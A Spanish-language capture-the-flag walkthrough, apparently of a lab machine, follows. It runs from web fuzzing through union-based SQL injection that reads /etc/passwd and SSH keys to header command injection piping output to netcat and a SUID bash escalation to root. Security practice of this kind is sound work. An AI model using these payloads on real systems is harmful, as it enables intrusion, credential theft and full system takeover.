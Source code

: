 ## Summary

- IP -> 10.10.11.128
- Ports -> TCP (80), UDP (idk)
- OS ->  Linux 
- Services & Applications
    - 80 -> http
    -  -> 


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Launchpad
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Comando -> **curl -s -X GET "http://< IP>" -I** Miramos las cabeceras de la pagina web (I=i mayuscula,s=silence)

❯ **nmap --script http-enum -p 80 10.10.11.130 -oN WebScan** 
-   -p80 -> Indica el puerto que se quiere escanear
-   10.10.11.130 -> Dirección IP que se quiere escanear
-   -oN WebScan -> Exporta el output a un fichero en formato nmap con nombre “WebScan”
-  http-enum -> Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

Miramos desde el navegador Web

- La web interpreta PHP
- Comando -> **wfuzz -c --hc=404 -t 200 -w < RUTA DICCIONARIO> http://10.10.11.128/FUZZ.php** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 
	- **/usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt**

Empezamos a probar inyecciones SQL y miramos que algunas si se pueden 
	**omar’or 1=1-- -** Aqui no me sale el here
	**omar'order by 10-- -** Aqui si sale el here
	**omar'union select 1-- -** Aqui miramos que tenemos una inyeccion sql **database()** podemos sustituir eso en 1 y nos regresa el nombre de la base de datos
	**omar'union select version()-- -** Nos muestra la version 
	**omar'union select user()-- -** Nos muestra el nombre del usuario 'uhc@local'
	**omar'union select load_file("/etc/passwd")-- -** Miramos el /etc/passwd de la maquina

Para mirara mejor lo podemos hacer por BurpSuite.
	**omar'union select load_file("/home/htb/.ssh/id_rsa")-- -** Para ver si podemos ver el id_rsa de la maquina victima del usuario htb
	**omar'union select load_file("/home/uhc/.ssh/id_rsa")-- -** Para ver si podemos ver el id_rsa de la maquina victima del usuario uhc
	**omar'union select load_file("/home/uhc/user.txt")-- -** Para ver si podemos ver la flag de usuario user.txt

Podemos usar eso para poder enumerar informacion 
	**'union select schema_name from information_schema.schemata -- -** Pone el resultado en forma de lista
	**'union select *group_concat*(schema_name) from information_schema.schemata -- -** Para listar mas bases de datos al mismo tiempo
	**'union select *group_concat*(table_name) from information_schema.tables WHERE table_schema='*November*'-- -** Lista las tablas de una base de datos especifica
	**'union select *group_concat*(column_name) from information_schema.columns WHERE table_schema='*November*' and table_name='*"flag"*' -- -** Lista las columnas de una base de datos especifica, donde tambien tenemos una tabla especifica, pero en ocasiones lo debemos de representar en hexadecimal 

- Comando -> **echo -n "flag" | xxd -ps** Convertimos una palabra en hexadecimal, flag = 666c 6167 = 0x666c6167

	**'union select *group_concat*(column_name) from information_schema.columns WHERE table_schema='*November*' and table_name='*0x666c6167*' -- -** Lista las columnas de una base de datos especifica, donde tambien tenemos una tabla especifica

Aveces no fucniona por lo que solo lo dejamos asi:
	**'union select *group_concat*(table_name,":",column_name) from information_schema.columns WHERE table_schema='*November*'-- -**  Otra forma de representar la linea anterior
	**'union select *group_concat*(one) from flag** Enumeraremos la flag

Y lo que obtenemos lo colocamos en la pagina en donde debemos de ingresar la primer flag.

Volvemos a hacer un escaneo de nmap.
	**'union select *group_concat*(player) from players** Enumeraremos los usuarios pero salen nombres que no son de usuarios.

Recoramos que en Wfuzz logramos enumerar un dir llamado 'config', por lo que probamos esa ruta en el navegador web. Pero no nos arroja nada, por lo que probamos la ruta tipica de los servidores web.
	**omar'union select load_file("/var/www/html/config.php")** Mirar el archivo config.php

## User
- Comando -> **ssh < user>@< IP>** Para conectarnos por ssh
- Comando -> **whoami**
- Comando -> **ifconfig**

- Comando -> **id**
- Comando -> **sudo -l** Ver que permisos tenemos en el sudoers (l=ele)
- Comando -> **lsb_release -a** Ver que tipo de OS es

- Comando -> **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios
- Comando -> **systemctl list-timers** Miraremos si hay tareas a punto de ejecutarse
- Comando -> **cat /etc/crontab** Para ver si hay una tarea interesante 

Nos dirigimos a la ruta del firewall ya que nos podria ayudar a escalar privilegios.

- Comando -> **cd /var/www/html/firewall.php** 

Podemos ver la cabecera X_FORWARDED_FOR que evita ser bloqueado

Por lo que podemos colocar algo en esa cabecera con curl 

- Comando -> **curl -s -X GET http://localhost/firewall.php -H "X_FORWARDED_FOR: 1.1.1.1; ping -c 1 10.10.14.17;"**
	- 1.1.1.1 -> Vale esa ip
	- 10.10.14.17 -> Nuestra IP
	- ping -c -> Comando a ejecutar 

Nos da acceso denegado. Por lo que nos traemos la Cookie de Session del BurpSuite
- Comando -> **curl -s -X GET http://localhost/firewall.php -H "X_FORWARDED_FOR: 1.1.1.1; ping -c 1 10.10.14.17;" -H "Cookie: PHIDRHNED"**
	- 1.1.1.1 -> Vale esa ip
	- 10.10.14.17 -> Nuestra IP
	- ping -c -> Comando a ejecutar 
	- Cookie -> Esta nos ayuda a que sirva el comando

- Comando -> **tcpdump -i < INTERFACE> icmp -n** (n=no resolucion DNS) Nos ponemos en escucha para trazas icmp y recibir los pings

Por lo que podemos ejecutar comandos

- Comando -> **curl -s -X GET http://localhost/firewall.php -H "X_FORWARDED_FOR: 1.1.1.1; whoami | nc 10.10.14.17 443;" -H "Cookie: PHIDRHNED"**
	- 1.1.1.1 -> Vale esa ip
	- 10.10.14.17 -> Nuestra IP
	- whoami -> Comando a ejecutar 
	- Cookie -> Esta nos ayuda a que sirva el comando

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux, para recibir el resultado por netcat y miraremos que usuario es el que manda la peticion

- Comando -> **curl -s -X GET http://localhost/firewall.php -H "X_FORWARDED_FOR: 1.1.1.1; sudo -l | nc 10.10.14.17 443;" -H "Cookie: PHIDRHNED"**
	- 1.1.1.1 -> Vale esa ip
	- 10.10.14.17 -> Nuestra IP
	- sudo -l -> Comando a ejecutar (l=ele) 
	- Cookie -> Esta nos ayuda a que sirva el comando

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux, para recibir el resultado por netcat y mirar si tiene privilegios asignados a sudoers


## Root

Este comando lo hacemos desde la terminal del usuario uhc
- Comando -> **curl -s -X GET http://localhost/firewall.php -H "X_FORWARDED_FOR: 1.1.1.1; sudo chmod u+s /bin/bash | nc 10.10.14.17 443;" -H "Cookie: PHIDRHNED"**
	- 1.1.1.1 -> Vale esa ip
	- 10.10.14.17 -> Nuestra IP
	- sudo -l -> Comando a ejecutar (l=ele) 
	- Cookie -> Esta nos ayuda a que sirva el comando

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux, para recibir el resultado por netcat y mirar si tiene privilegios asignados a sudoers

Esto nos ayudar a entablarnos una revershell y lo haremos asignado a otros la bash privilegiada
- Comando -> **bash -p** Nos otorgara una bash como el propietarios que es root, esto temporalmente (p=privilege)

Despues podemos visualizar la flag root.txt